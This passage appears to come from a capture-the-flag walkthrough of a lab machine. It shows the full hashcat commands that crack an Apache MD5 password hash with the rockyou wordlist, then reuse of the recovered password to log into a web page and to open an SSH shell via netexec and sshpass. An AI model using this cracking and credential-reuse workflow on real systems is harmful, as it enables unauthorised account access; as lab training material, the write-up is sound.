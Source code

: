 I’ll save that hash to a file, and pass it to `hashcat`. The auto-detect mode works, and it cracks quickly:

```

$ cat albert.hash 
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
$ hashcat albert.hash --user /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR) | FTP, HTTP, SMTP, LDAP Server
...[snip]...
$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited    
...[snip]...

```

#### Statistics Page

I’ll use these creds to access the statistics page:

![image-20250319163923948](/img/image-20250319163923948.png)
[![expand](/icons/expand.png)](javascript:void(0) "Click to expand for full content")

It looks like a static page. The data is hardcoded into the JavaScript that generates the charts. I can read `/var/www/statistics.alert.htb/index.php`, and it doesn’t take any user interaction.

### SSH

With a password, it’s always good to check if it works for the same user on the system:

```

oxdf@hacky$ netexec ssh alert.htb -u albert -p manchesterunited
SSH         10.10.11.44     22     alert.htb        [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
SSH         10.10.11.44     22     alert.htb        [+] albert:manchesterunited  Linux - Shell access!

```

`netexec` says it works! And it does:

```

oxdf@hacky$ sshpass -p manchesterunited ssh albert@alert.htb
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-200-generic x86_64)
...[snip]...
albert@alert:~$ 

```
*Disclaimer - I like to use `sshpass` to pass passwords via the command line for CTF blog posts because it makes it very clear what I’m doing. Never do this with real world credentials.*
